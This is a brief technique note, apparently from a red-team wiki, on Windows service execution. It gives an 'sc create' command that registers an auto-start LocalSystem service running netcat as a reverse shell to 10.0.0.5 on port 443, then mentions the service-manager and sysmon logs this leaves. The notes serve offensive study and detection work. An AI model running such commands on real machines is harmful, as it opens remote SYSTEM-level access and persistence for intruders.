


# Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

```
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```

## Observations

The reverse shell lives under services.exe as expected:



Windows security, application, Service Control Manager and sysmon logs provide some juicy details:



## Reference


